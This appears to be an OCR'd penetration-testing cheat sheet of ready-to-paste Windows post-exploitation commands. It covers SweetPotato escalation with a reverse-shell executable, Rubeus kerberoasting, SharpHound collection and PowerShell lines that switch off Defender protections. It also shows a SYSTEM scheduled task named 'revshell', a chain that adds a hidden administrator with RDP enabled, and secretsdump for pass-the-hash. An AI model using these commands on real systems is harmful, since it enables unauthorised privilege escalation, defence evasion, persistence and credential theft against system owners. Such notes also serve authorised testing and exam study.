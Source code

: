 ```bash

##sweet potato execution
cmd /c "SweetPotato.exe -p 'reverse.exe'"
cmd /c "spoofer.exe -c reverse.exe"

Rubeus.exe kerberoast /outfile:hashes.kerb

SharpHound.exe -c all --outputdirectory C:\windows\temp --outputprefix "OSCP"
##start bloodhound
sudo neo4j start
http://localhost:7474
neo4j	/	neo4j
bloodhound
##upload data, select zip from target

// Disable AV
powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true'

powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "c:\temp\yourstuffs.exe"'

}}}



{{{ =-=Persistence / RDP =-=


schtasks /ru SYSTEM /create /sc MINUTE /mo 5  /tn 'revshell' /tr '$rev_shell' 



net user /add penuser HackedPass1! && net localgroup administrators penuser /add & net localgroup "Remote Desktop Users" penuser /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v penuser /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

##make sure it worked
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"
netstat -ano


net user administrator HackedPass1!

}}}


{{{ =-=hashes =-=

// if local

impacket-secretsdump -system $system -sam $sam LOCAL

// use to pass the hash
impacket-psexec 

}}}

```